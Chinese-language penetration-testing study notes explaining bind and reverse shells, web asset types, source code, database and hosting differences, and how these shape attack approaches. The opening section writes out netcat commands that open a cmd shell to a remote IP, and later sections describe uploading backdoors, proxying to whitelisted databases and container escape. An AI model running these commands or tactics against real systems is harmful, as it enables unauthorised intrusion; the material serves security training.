

## 正反向连接/反弹shell

反弹shell：把目标主机命令行的输出与输入远程回显给攻击者

以linux攻击windows为例子，正向连接与反弹shell的反向连接区别如下：

正向：
一.让windows开放端口，并把cmd等服务绑定该端口
eg: nc -e cmd -lvp 5566
二.让linux服务器远程连接该端口：ncat 47.122.23.131 5566

反向：
一.让linux先开始监听本地的端口：
nc -lvvp 5566
二.让windows向攻击者的主机和端口主动传递cmd等服务：
ncat -e cmd 47.94.236.117 5566

# WEB应用

### 域名分类

\#域名差异-主站&分站&端口站&子站

1、主站

www.xiaodi8.com

2、分站/子域名

blog.xiaodi8.com

3、端口站

www.xiaodi8.com:88

4、目录站

www.xiaodi8.com/bbs/

5、子站

123.blog.xiaodi8.com

```
渗透目标常见的有以下情况：
知道目标的域名；
知道目标的ip地址； 
```

##### 为什么拿到分站信息可以扩大攻击面？

对方如果一个主站下存在分站，主站虽然可能与分站对应的ip地址不同，但是可能会存在在同一服务器上，攻击者的最终目的就是拿下服务器，因此不用拘泥于单一IP

### 源码分类

\#源码差异-结构&语言&框架&闭源&加密

1、源码目录结构对应

后台目录，文件目录，逻辑目录，前端目录，数据目录，配置文件等

2、源码开发语言类型

ASP，ASPX，PHP，Java，Python，Go，Javascript等

3、语言开发框架组件

PHP：Thinkphp Laravel YII CodeIgniter CakePHP Zend等

JAVA：Spring MyBatis Hibernate Struts2 Springboot等

Python：Django Flask Bottle Turbobars Tornado Web2py等

Javascript：Vue.js Node.js Bootstrap JQuery Angular等

4、开源闭源加密类型

开源-如Zblog

闭源-如内部开发

加密-如通达OA

### 数据库分类

\#数据差异-本地数据&分离数据&云数据库

1、数据库类型：

Access、MYSQL、SqlServer、Oracle、

Redis、DB2、Postgresql、MongoDB等

2、本地数据库：本地服务器搭建

3、分离数据库：另外的服务器搭建

4、云数据库：RDS等

- 拿到目标的源码，分析配置文件，发现数据库账户密码，根据数据库是本地/分离/云数据库采取连接，连接不一定百分百成功，有可能对方设置了ip来源白名单，此时就需要获取到网站权限，利用网站权限上传代理流量工具，做数据中转的操作去连接数据库

### 平台分类

\#平台差异-中间件类型&系统类型&容器类型

1、系统：Windows、Linux、MacOS等

2、容器：Docker、K8s、Vmware、VirtualBox等

3、中间件：Apache、Nginx、IIS、lighttpd、Tomcat、Jboos、Weblogic、Websphere、Jetty等

### 解析差异

\#解析差异-URL路由&绝对相对路径&格式权限

1、URL路由：URL访问对应文件，MVC模型等

代码审计时需要认清当前网页为MVC模型源码还是非MVC模型源码:

因为正常的网站访问网页文件时：

访问url:xxx.xiaodi8.com/admin/login.php   =      目标服务器上的目录：源码/admin/loigin.php

而采用框架开发【框架采用mvc】|MVC模型的网站访问网页文件时：

用户访问的网页在服务器上的目录由框架的路由决定

2、相对绝对：相对当前目录，完整的目录路径

3、格式权限：后门解析格式，代码正常执行，脚本执行权限等

# WEB架构

### 1、套用模版型

csdn / cnblog / github / 建站系统等

安全测试思路上的不同：

一般以模版套用，基本模版无漏洞，大部分都采用测试用户管理权限为主

### 2、前后端分离

例子：https://www.rxthink.cn/

思路：https://mp.weixin.qq.com/s/HtLU_EBXWcbq-lt10oPYwA

**前端只做数据展示，后端只做数据处理，该网站的数据处理全部发给另一个后端网站进行处理，该网站上没有后台没有数据处理**

安全测试思路上的不同：前端以JS（Vue,NodeJS等）安全问题，主要以API接口测试，前端漏洞（如XSS）为主，后端隐蔽难度加大。

### 3、集成软件包，自主环境镜像，容器拉取镜像

宝塔，Phpstudy，xamp等

安全测试思路上的不同：主要是防护体系，权限差异为主

------------------------

云镜像打包，自行一个个搭建，镜像环境搭建

安全测试思路上的不同：主要是防护体系，权限差异为主

---------------------------------

Docker容器搭建

安全测试思路上的不同：虚拟化技术，在后期测试要进程逃逸提权 

- 通过不同方式搭建的网站，即使采取同一种语言，最后网站的权限也是不同的

```
eg:
通过宝塔搭建的网站，当上传后门后，后门的权限并不高，虽然可以连接上去，但如命令执行这种需要较高权限的操作是不行的，后续需要绕过宝塔限制

通过镜像搭建的网站，当上传后门后，后门权限很高，命令执行可以进行，除了高权限目录不能查看【root目录等】，后续需要提权横向

通过PHPstudy搭建的网站，当上传后门后，后门权限更高

通过Docker容器搭建的网站，当上传后门后，显示的虚拟化容器中的目录而不是实际运行该网站的主机的目录，类似于把后门上传到了一个虚拟机，后续需要做逃逸提权

原因：宝塔搭建的网站自带安全防护与安全限制，镜像搭建的网站采用一些默认的安全防护，PHPstudy搭建的网站不做任何防护
```

- 当后门上传却发现进行一些操作有问题时，需要考虑对方搭建网站时采用的方式，再从这个思路点上考虑如何提权如何绕过

### 6、纯静态页面

纯HTML+CSS+JS的设计，没有使用PHP，java等动态语言，没有数据传递

安全测试思路上的不同：无后期讲到的Web漏洞

渗透思路：  找线索：找资产，域名，客户端等

# WEB源码形式

旨在了解源码差异，后期代码审计和测试中对源码真实性的判断

### 1、单纯简易源码

结构直观，文件目录与网站目录对应

如后台目录文件为www/admin

则访问网页xxxx.com/admin即可访问到网站后台

### 2、MVC框架源码

如后台目录文件为www/application/admin/controller

而访问网页需要访问目录xxxx.com/index.php/admin【不是一定就是这个，要根据MVC架构的路由设置决定】

因此需要了解url对应的文件【路由设置】

### 3、编译调用源码

如：**NET-DLL封装**          

核心处理逻辑代码一般在bin目录中的dll文件中，需要通过dll反编译工具对dll文件进行反编译后才能查看代码

   **Java-Jar打包**

网站源码封装起来，无法直接查看，整个网站被打包成一个jar包，直接运行该jar包后就可以启动该网站

需要用到java反编译工具对jar进行反编译后才能查看源码

### 4、前后端分离源码

https://segmentfault.com/a/1190000045026063

### 5、加密型源码

如通达OA源码，对网站源码进行加密

需要识别加密方式并尝试对其进行解密